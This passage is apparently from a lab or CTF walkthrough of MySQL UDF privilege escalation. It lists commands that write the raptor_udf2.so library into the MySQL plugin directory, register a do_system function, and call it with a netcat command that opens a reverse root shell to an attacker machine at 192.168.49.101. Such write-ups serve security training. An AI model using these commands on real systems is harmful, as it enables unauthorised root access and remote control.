 - We enter the command "use mysql;"

- We enter the command "create table foo(line blob);"

- We enter the command "insert into foo values(load_file('/var/www/raptor_udf2.so'));"

- We execute the command "select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';"

- We enter the command "create function do_system returns integer soname 'raptor_udf2.so';"

- We enter the command "select * from MySQL.func;" to verify that the "raptor_udf2.so" shared object file was successfully added to the do_system function table.

![](Images/Pasted%20image%2020221001100150.png)

- We initiate a netcat listener on our Kali machine, set to listen on port 8295.

- We enter the command "select do_system('nc 192.168.49.101 8295 -e /bin/bash');" into the MySQL database on the target machine and successfully gained a root shell.

![](Images/Pasted%20image%2020221001100235.png)


---
